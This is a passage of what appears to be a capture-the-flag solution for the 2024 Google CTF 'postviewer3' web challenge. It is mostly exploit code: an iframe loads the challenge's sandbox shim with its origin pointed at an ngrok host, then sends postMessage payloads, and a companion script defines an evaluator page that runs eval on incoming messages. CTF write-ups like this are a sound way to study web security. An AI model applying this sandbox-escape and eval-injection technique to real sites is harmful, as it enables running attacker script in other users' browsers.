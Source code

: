 ```html

        const ifrm = document.querySelector("iframe");
        
        const prepend_chunk = evaluatorHtml + "postviewer" + "https://postviewer3-web.2024.ctfcompetition.com" + "https://postviewer3-web.2024.ctfcompetition.com/#" 
        ifrm.src="https://sbx-1npy2a9m4fd8g0r5jeg1qwkarykrt1gnvdxxhh5ia0nxk8nvrb.postviewer3-web.2024.ctfcompetition.com/postviewer/shim.html?o=https://75a7-203-167-11-246.ngrok-free.app"
        ifrm.addEventListener("load", function() {
            ifrm.contentWindow.postMessage(
                {
                    "body": prepend_chunk,
                    "mimeType": "text/html",
                    "salt": ""
                }, "*"
            );

            setTimeout(() => {
                ifrm.contentWindow.postMessage(
                    {
                        "eval":payload,
                        "body": "aaa",
                        "mimeType": "text/html",
                        "salt": ""
                    }, "*"
                );
            }, 1000)
        })

    </script>

    <!-- <script>
        const win = window.open("https://postviewer3-web.2024.ctfcompetition.com/#1", "_blank");

    </script> -->
</html>
```

a.js:

```js
const evaluatorHtml = `
<html>
  <head>
    <meta charset="utf-8">
    <title>Evaluator</title>

    <script>
      onmessage = e => {
        if(e.source !== parent) {
          throw /not parent/;
        };
        if(e.data.eval){
          eval(e.data.eval);
        }
      }
      onload = () => {
        parent.postMessage('loader ready','*');
      }
    </script>

    <style>
      body{
        padding: 0px;
        margin: 0px;
```